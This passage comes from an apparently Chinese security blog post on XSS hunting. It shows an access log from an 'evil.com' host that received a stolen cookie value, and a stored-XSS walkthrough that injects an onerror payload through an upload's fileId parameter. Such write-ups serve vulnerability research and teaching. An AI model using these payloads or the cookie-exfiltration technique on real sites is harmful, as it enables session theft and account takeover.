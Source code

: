 这时我们在evil.com主机的HTTP访问日志中就可以看到：  
  
127.0.0.1 evil.com - [08/Mar/2018:15:20:44 - 0500] "GET /?cookie=bf2fa962b7889ed8869cadaba282 HTTP/1.1" 200 2 "-" "-"  
  
这样，HTTPOnly cookies可以在没有Javascript的情况下被窃取。  
  
参考文章：https://www.anquanke.com/post/id/103641#h3-5  
## 不一样的XSS  
  
上传一张图片  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNnrXOmlcwpFxzNBOecfEet8ibBkC8JOLK5LToNLQ6282frocEAkicRbKgQ/640?wx_fmt=png "")  
点击上传一张图片、抓取上传图片数据包的返回包，也就是这个数据包的返回包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNn4B9ic5WLWodcnHKBSqkkWQMT9aliaMxOc2NFSiaKH4fdeszgcrpACr1Tg/640?wx_fmt=png "")  
返回包如下：![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNn436VghR8LFiaOrg8yVzNsicXV8FVch4UBicPX9iaCkt72BTP2NMwZxicHpg/640?wx_fmt=png "")  
修改fileId参数值为：  
  
1\u0022 onerror=alert(1) \u0022  
  
成功弹窗，并且刷新页面还是可以继续弹窗，这边问了客服也会弹窗，说明不是self-xss，而是存储xss  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNnZgov0UXbJR5iagZMTBxTasnewrUkjUfOBlAIVteGbZtIv8FhgSiao6OQ/640?wx_fmt=png "")  
  
原理是我们在上传图片的时候图片本身有一个img标签，我利用这个img标签给修改成弹窗，并内嵌进去了如下：![](https://mmbiz.qpic.cn/sz_mmbiz_png/HsnvOqazeMGQUdrK79MGwKt4nsy50NNnoz4bvFDXKJCNwuhicqNAArkDpZN1IIcDRMqafgOPiab522pzSVRwAJGg/640?wx_fmt=png "")  
在几乎所有的漏洞挖掘过程中基本就是寻找可控参数来挖掘，XSS漏洞也不例外，所以平常漏洞挖掘过程中最主要的还是理解业务功能、观察数据包。  
  
**1**  
►  
  
**福利放送**  
  
    再次声明：本公众号及其发布的内容的使用者需自行承担由此产生的任何直接或间接的后果和损失，GG安全公众号和原文章作者不承担任何责任。  
  
****  
**edusrc邀请码 | 玄机邀请码**  
  
    免费不限量提供edusrc邀请码及  
玄机邀请码  
，可在的菜单栏  
资源获取-edusrc邀请码   
| 玄机邀请码  
中获取。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia30l0vOygMG0stgMGrb9qOt6icialDd5WP60Tuk8mdKsbAHGHRgZpIrV0yUN479hWrFTa8NoPEumPTP3h3bO4iaWQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
**2**  
►  
  
**往期精彩**  
  